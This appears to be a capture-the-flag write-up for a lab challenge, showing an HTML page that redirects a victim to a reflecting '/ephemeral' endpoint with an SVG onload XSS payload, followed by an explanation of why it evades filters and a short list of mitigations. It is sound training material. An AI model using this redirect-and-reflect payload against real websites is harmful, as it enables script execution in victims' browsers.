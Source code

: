 # CSRF to XSS Challenge Writeup

## Challenge Description
The challenge required exploiting a CSRF vulnerability to trigger an XSS attack that executes `alert("PWNED")` on `http://challenge.localhost`.

## Solution

### Exploit Code
```html
<!DOCTYPE html>
<html>
<body>
    <script>
        const payload = "<svg/onload=alert('PWNED')>";
        window.location = `http://challenge.localhost/ephemeral?msg=${encodeURIComponent(payload)}`;
    </script>
</body>
</html>
Explanation
The vulnerable /ephemeral endpoint reflects the msg parameter without proper encoding

We use an SVG with onload handler to avoid standard XSS filters

The payload is URL encoded to ensure proper transmission

window.location redirect forces the victim to the vulnerable page with our payload

Why This Works
SVG tags support event handlers and are treated as HTML

The simple redirect ensures execution in the target origin context

Avoids complications with iframes or script tag parsing

Mitigation
Implement proper output encoding

Add Content Security Policy headers

Use CSRF tokens for sensitive actions


This writeup explains the successful solution and provides context about why other approaches failed while maintaining proper markdown formatting for easy copying.
